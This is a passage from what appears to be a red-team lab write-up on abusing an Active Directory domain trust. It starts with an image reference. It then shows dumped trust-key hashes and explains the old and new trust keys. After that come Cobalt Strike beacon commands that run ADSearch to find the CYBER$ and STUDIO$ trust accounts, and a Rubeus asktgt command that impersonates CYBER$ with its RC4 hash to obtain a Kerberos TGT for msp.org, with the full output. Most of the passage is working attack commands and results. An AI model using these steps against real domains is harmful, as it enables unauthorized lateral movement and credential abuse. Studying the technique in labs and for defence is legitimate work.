 ```
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496

 [Out-1] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496
```

#### Output

<mark style="color:yellow;">`[Out]`</mark> and <mark style="color:yellow;">`[Out-1]`</mark> are the "new" and "old" passwords respectively.&#x20;

* They're the same because 30 days has not elapsed since the creation of the trust.

In most cases, <mark style="color:green;">the current</mark> <mark style="color:yellow;">`[Out]`</mark> <mark style="color:green;">key is the one that you want</mark>.

Also, there is a "trust account" which is created in the "trusted" domain, with the name of the "trusting" domain.

**For instance, if we get all the user accounts in the `DEV` domain, we will see `CYBER$` and `STUDIO$`, which are the trust accounts for those respective domain trusts:**

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"

[*] TOTAL NUMBER OF SEARCH RESULTS: 11

        [...]
	[+] cn : CYBER$
	[+] cn : STUDIO$
```

This means that the `MSP` domain will have a trust account called `CYBER$`, even though we can't enumerate across the trust to confirm it.

**This is the account we must impersonate to request Kerberos tickets across the trust:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:CYBER$ /domain:msp.org /rc4:f3fc2312d9d1f80b78e67d55d41ad496 /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: f3fc2312d9d1f80b78e67d55d41ad496
[*] Building AS-REQ (w/ preauth) for: 'msp.org\CYBER$'
[*] Using domain controller: 10.10.151.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFGD[...]Aub3Jn

  ServiceName              :  krbtgt/msp.org
  ServiceRealm             :  MSP.ORG
  UserName                 :  CYBER$
  UserRealm                :  MSP.ORG
  StartTime                :  9/12/2022 2:03:12 PM
  EndTime                  :  9/13/2022 12:03:12 AM
  RenewTill                :  9/19/2022 2:03:12 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
```